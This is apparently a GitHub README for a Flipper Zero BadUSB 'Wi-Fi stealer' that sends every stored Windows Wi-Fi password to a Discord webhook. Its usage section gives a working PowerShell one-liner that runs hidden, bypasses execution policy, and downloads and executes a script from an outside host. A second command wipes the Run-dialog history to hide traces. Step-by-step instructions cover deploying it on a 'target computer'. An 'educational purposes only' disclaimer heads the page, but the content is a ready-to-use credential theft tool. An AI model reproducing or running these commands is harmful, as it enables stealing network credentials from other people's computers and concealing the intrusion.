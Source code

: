 ## :warning: This script was made for educational purposes only and is not meant to be used maliciously.

This script is a wifi stealer that sends every wifi passwords stored on a Windows 10/11 computer to a [discord webhook](https://support.discord.com/hc/en-us/articles/228383668-Intro-to-Webhooks).

It is made to be used with a [Flipper Zero](https://flipperzero.one/) device, using the [BadUSB](https://docs.flipperzero.one/bad-usb) feature.

# Files
### Powershell script
- `Wifi-Stealer-Discord.ps1` - The main script, commented for readability
### Duckyscript file
- `Wifi-Stealer-Discord_Quick.txt` - A duckyscript version of the script using a minified/efficient version of the script (for Flipper Zero) pulling from webpage powershell script; it also clears run prompt history.

### Dependencies
* An internet connection
* Windows 10,11

# Usage
Replace `https://discord.com/api/webhooks/<channel_id>/<webhook_id>` with your own [webhook url](https://support.discord.com/hc/en-us/articles/228383668-Intro-to-Webhooks).
### Powershell
```powershell
powershell -w h -ep bypass $discord='https://discord.com/api/webhooks/<channel_id>/<webhook_id>';irm winwifidiscord.remothe.dev | iex

powershell "Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU' -Name '*' -ErrorAction SilentlyContinue" | iex
```

### Flipper Zero
1. Copy the `Wifi-Stealer-Discord_Quick.txt` file to the Flipper Zero in the `badusb` folder, directly to the microSD card or using the [Flipper Zero app](https://docs.flipperzero.one/mobile-app) *(Android/iOS)* or [qFlipper](https://docs.flipperzero.one/qflipper) *(Windows/Linux/MacOS)*
2. Plug the Flipper Zero to the target computer
3. You must have internet access in order for the .txt file's script in order to connect to the last bit `winwifidiscord.remothe.dev` and allow it to execute.
4. Run the script from the Flipper Zero in the `Bad USB` menu

# Result
![image](https://user-images.githubusercontent.com/54336210/251186081-3aa3261c-d14d-4ae1-a1ef-136f005d8705.png)

## Credits

- [RemoTheDev](https://remothe.dev) - Modified script and deleted redundancies for subjectively more efficient use and less space.
- [AlexZeGamer](https://gist.github.com/AlexZeGamer) - BadUSB script foundation
